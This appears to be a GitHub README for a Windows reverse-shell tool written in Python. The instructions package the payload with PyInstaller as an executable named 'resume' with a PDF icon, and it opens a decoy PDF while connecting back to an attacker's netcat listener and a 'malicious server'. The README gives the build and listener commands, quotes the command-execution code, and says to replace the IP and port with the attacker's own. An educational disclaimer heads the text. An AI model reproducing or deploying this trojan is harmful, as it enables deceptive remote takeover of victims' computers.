

> ⚠️ **Warning:** This code is intended **for educational purposes only** and should only be run in a **controlled lab environment** on systems you own. Using it on devices without permission is illegal. 🚫

## 📖 Description

This Python script demonstrates a basic **reverse shell connection** for educational purposes. It connects back to a predefined server IP and port and provides a shell over the network,this tool version works on windows.

Key points:

- 🖧  Uses the `socket` module to establish a TCP connection.
- 🔄 Redirects standard input, output, and error streams to the socket.
- 🐉 `cmd = s.recv(1024).decode("utf-8").strip()` for sending the command to the attacker.
- ⚡`result = output.stdout + output.stderr if result: s.send(result.encode()) else: s.send(b"[+] Command executed but no output.\n")` send the command encoded.
- 🐦‍🔥`threading.Thread(target=open_pdf).start()` open the fake pdf.
- 🌐`connect_back()` connect back the victim.


## 🛠 Requirements

- 🐍 Python 3.x.
- 🌐 Network access to the target server (controlled lab environment).
- ✅ Permissions to run scripts and open network connections.
- ☕Node Js.

## 🚀 Usage

1. Set up a listener on your machine (educational lab):
   ```bash
   nc -lvp 12345
2. Run this command to install python libraries:
   ```bash
        python -m pip install -r requirements.txt
3. Run this script on windows terminal to convert python code to malicous exe file:
   ```bash
   python -m PyInstaller --onefile --noconsole --icon=pdf.ico --add-data "Fake.pdf;." --name resume ./payload.py
4. Run the mailicous server:
   ```bash
   cd mailicous_server && npm install && npm run dev
> ⚠️ **Warning:** Do not forget to edit your code.

## ❕Edit requirments

1. SERVER_URL = "http://192.168.88.105:2020" in payload.py replace the local ip address with your local ip address.

2. s.connect(("IP", "PORT")) Replace ip with your local ip address and port with netcat port.

